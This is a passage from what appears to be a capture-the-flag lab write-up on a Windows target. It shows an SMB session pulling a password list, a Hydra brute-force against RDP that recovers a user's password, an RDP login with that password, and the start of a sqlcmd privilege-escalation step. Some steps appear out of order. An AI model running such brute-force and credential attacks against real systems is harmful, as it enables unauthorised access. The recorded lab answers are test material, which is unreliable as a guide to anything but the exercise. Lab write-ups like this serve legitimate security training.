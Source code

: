 ```c
KDIlalsa9020$
JT9ads02lasSA@
Kaksd032klasdA#
LKads9kasd0-@smb: \IT\Simon\> get random.txt 
getting file \IT\Simon\random.txt of size 94 as random.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \IT\Simon\> SMBecho failed (NT_STATUS_INVALID_NETWORK_RESPONSE). The connection is disconnected now

```


2. Enumerate the target and find a password for the user Fiona. What is her password? 

For that we need to utilize the creds.txt file that we obtained in the Home share in IT/Fiona directory
```c
hydra -l Fiona -P creds.txt 10.129.214.228 rdp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 12:52:41
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7 login tries (l:1/p:7), ~2 tries per task
[DATA] attacking rdp://10.129.214.228:3389/
[3389][rdp] host: 10.129.214.228   login: Fiona   password: 48Ns72!bns74@S84NNNSl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.

```


4. Once logged in, what other user can we compromise to gain admin privileges? 

As from the share results inside IT directory we saw 3 users and the one haven't appeared in the questions yet is `john` so it's correct answer

Then open powershell and use sqlcmd tool:

6. Submit the contents of the flag.txt file on the Administrator Desktop. 

We need to rdp to Windows machine via rdesktop
```c
rdesktop -u Fiona -p '48Ns72!bns74@S84NNNSl' 10.129.214.228 
```

So now we find out the user actually and impersonate as him to gain admin privileges:
```c
PS C:\Users\Fiona> sqlcmd                                                                                                            
1> SELECT table_name FROM master.INFORMATION_SCHEMA.TABLES;                                                                          
2> go                                                                                                                                table_name                                                                                                                           
```